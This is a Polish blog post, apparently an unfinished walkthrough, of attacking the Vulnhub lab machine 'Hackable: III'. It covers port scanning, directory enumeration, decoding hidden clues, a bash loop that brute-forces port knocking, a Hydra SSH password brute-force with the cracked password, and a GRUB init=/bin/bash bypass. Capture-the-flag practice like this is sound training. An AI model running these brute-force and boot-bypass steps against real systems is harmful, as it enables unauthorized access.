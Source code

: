 ```yaml
---
title: "Hackable: III - in progress"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/06/01.png
    image_path: /assets/images/hacking/2021/06/01.png
  - url: /assets/images/hacking/2021/06/02.png
    image_path: /assets/images/hacking/2021/06/02.png
gallery3:
  - url: /assets/images/hacking/2021/06/03.png
    image_path: /assets/images/hacking/2021/06/03.png
gallery4_5:
  - url: /assets/images/hacking/2021/06/04.png
    image_path: /assets/images/hacking/2021/06/04.png
  - url: /assets/images/hacking/2021/06/05.png
    image_path: /assets/images/hacking/2021/06/05.png
---
```

# Wstęp
[Hackable III](https://www.vulnhub.com/entry/hackable-iii,720/)  jest najnowszą maszyną od [Eliasa Soulsa](https://www.vulnhub.com/author/elias-sousa,804/) (stan na lipiec 2021). Oznaczona jest poziomem **medium**. Nie jest tak łatwa, jak opisywane wcześniej maszynki. Jest bardzo podchwytliwa i straciłem nad nią dosyć dużo czasu, ale człowiek uczy się całe życie. Metasploita będę używał, ale nie jest on tutaj głównym narzędziem. Mała uwaga, na XCP-ng musisz nazwę interfejsu sieciowego zmienić w dwóch miejscach. Rozwiązanie podaje na końcu, gdyż to może komuś zepsuć zabawę.
{: .text-justify}
## Zaczynamy
```bash
msf6 > db_nmap -A -p- 172.16.1.103
host          port  proto  name  state     info
----          ----  -----  ----  -----     ----
172.16.1.103  22    tcp    ssh   filtered
172.16.1.103  80    tcp    http  open      Apache httpd 2.4.46 (Ubuntu)
```
Mamy dwa porty, 80 i 22. Jeden jest filtrowany. Zacznijmy od www. Wchodząc na stronę mamy takie coś (Kierujemy się na górny lewy róg) i mamy menu.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
Logowanie nic nam nie daje. W kodzie źródłowym (http://172.16.1.103/login_page/login.html) jest informacja, że to może do końca nie działać. Bawiąc się Burpsuitem i odpalając powyższy link, Burpsuite kieruje nas do  http://172.16.1.103/login.php, a tam jest coś dziwnego, zamiast wyniku z logowania, dostajemy kod źródłowy w PHP. Z początku myślałem, że to jest ułatwienie dla pentestera i PHP nam wyświetla tę informacje, żeby ułatwić zadanie, ale nie. Niezależnie jakie parametry podasz, to jest zwykły kod w HTML-u, tyle że ma rozszerzenie php! Na nic się zda wstrzykiwanie parametrów. Zanim do tego doszedłem minęło trochę czasu, ale to był ciekawy pomysł autora.
{: .text-justify}
{% include gallery id="gallery3"  %}
Sprawdźmy co jest jeszcze na na tym www.
{: .text-justify}
```bash
root@kali:/home/szikers# gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.16.1.103 -x php,txt,html,htm,png,jpg,
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html,htm,png,jpg,
[+] Timeout:                 10s
===============================================================
2021/07/30 18:44:19 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1095]
/home.html            (Status: 200) [Size: 11327]
/login.php            (Status: 200) [Size: 487]
/3.jpg                (Status: 200) [Size: 61259]
/css                  (Status: 301) [Size: 310] [--> http://172.16.1.103/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.1.103/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.1.103/config/]
/config.php           (Status: 200) [Size: 507]
/backup               (Status: 301) [Size: 313] [--> http://172.16.1.103/backup/]
/robots.txt           (Status: 200) [Size: 33]
/imagens              (Status: 301) [Size: 314] [--> http://172.16.1.103/imagens/]
/login_page           (Status: 301) [Size: 317] [--> http://172.16.1.103/login_page/]
/server-status        (Status: 403) [Size: 277]

===============================================================
2021/07/30 18:48:55 Finished
=============================================================== 
```
## Zawartość
http://172.16.1.103/backup/ -> wordlist.txt – pewnie hasła do użytkownika
{: .notice--info}
Zawartość http://172.16.1.103/robots.txt 
User-Agente: *
Disallow: /config
{: .notice--info}
http://172.16.1.103/config/ -> 1.txt
tekst zakodowany w Base64 **MTAwMDA=**
```bash
echo MTAwMDA= | base64 -d
10000
```
Mamy pierwszą wartość **10000**, na razie nie wiadomo po co, ale pewnie się to nam przyda.
{: .text-justify}
http://172.16.1.103/css/ -> 2.txt – tutaj mamy kod w Brainfuck. Można to odkodować poprzez stronę, albo przez program Beef.
**++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....**
{: .notice--info}
```bash
root@kali:/home/szikers# beef 2.txt
4444
```
## Knockd
Jest jeszcze 3.jpg, ale tam nie znalazłem nic ciekawego. Nie mówię, że nie ma. Przez dłuższy czas szukałem jakiejś podatności na WWW. Jednak nie mogłem znaleźć. Spróbowałem wejść przez Ssh, ale była blokada. Jeszcze raz przejrzałem kody, przeczytałem notatkę __Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com__  i nagle mnie olśniło. Do blokowania Ssh używa się Knockd (Trzeba zainstalować w Kali). Bez podania odpowiednich „zapukań” dostęp do Ssh będzie utrudniony. Zazwyczaj podaje się 3 parametry w przeciągu 5 sekund. Dwa pierwsze mamy. 10000 i 4444. Trzeci być może gdzieś jest w tej maszynie, szukałem w pliku 3.jpg, ale nie znalazłem (jak znajdę, zmienię ten wpis). Nie mamy trzeciego numeru, ale możemy spróbować bruteforce, chociaż to może potrwać parę dni. Jest 65536 możliwości (0-65535) na trzeci numer. Napisałem szybko skrypcik.
{: .text-justify}
```bash
#!/bin/bash
for i in {0..65535}; do
knock -v 172.16.1.103 10000 4444 $i
sleep 5
done
#--------- 
```
I co? Nie działa (prawdę mówiąc nie czekałem tyle dni). Niestety to była wina maszyny i XCP-ng. Znalazłem w logach, że knockd nasłuchiwał na ensp03, zamieniłem na eth0. Po zakończeniu działania powyższego skryptu Ssh działał! Użytkownikiem zapewne jest **jubiscleudo**, a hasło pewnie jest w wordlist.txt. Użyjmy Hydry.
{: .text-justify}
```bash
hydra -V -T 64 ssh://172.16.1.103 -l jubiscleudo -P wordlist.txt

[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "maria" - 204 of 303 [child 15] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "onlymy" - 205 of 303 [child 13] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "gabriela" - 206 of 303 [child 4] (0/3)
...
[22][ssh] host: 172.16.1.103   login: jubiscleudo   password: onlymy
```
## Shelltris
W katalogu **scripts** jest plik **tetris.sh**. Po uruchomieniu brakuje w nim pliku getch i program blokuje cały system. Popatrzyłem na kod źródłowy i zobaczyłem, że oryginalny nazywa się **ShellTris**. Ściągnałem cały [kod](https://shellscriptgames.com/shelltris/tarballs/shelltris-1.1.tar.gz). Skompilowałem na swoim shellu plik **getch.c**. I nic. Nie ma root-a. Być może za jakiś czas ktoś rozwiąże problem, jak nie to pewnie zrobi to ktoś inny. Jak znalazłeś rozwiązanie to napisz [kerszi@protonmail.com](mailto:kerszi@protonmail.com)
{: .text-justify}
{% include gallery id="gallery4_5"  %}
Uwaga, jeżeli chcesz, żeby ta maszyna działała na XCP-ng trzeba podczas startu systemu zmienic w Grubie ro na rw init=/bin/bash, potem F10, w /etc/netplan/00-installer-config.yaml zmieniamy na interfejs eth0. Dodatkowo należy zmienić w /etc/default/knockd na KNOCKD_OPTS="-i eth0".
{: .text-justify}
{: .notice--danger}
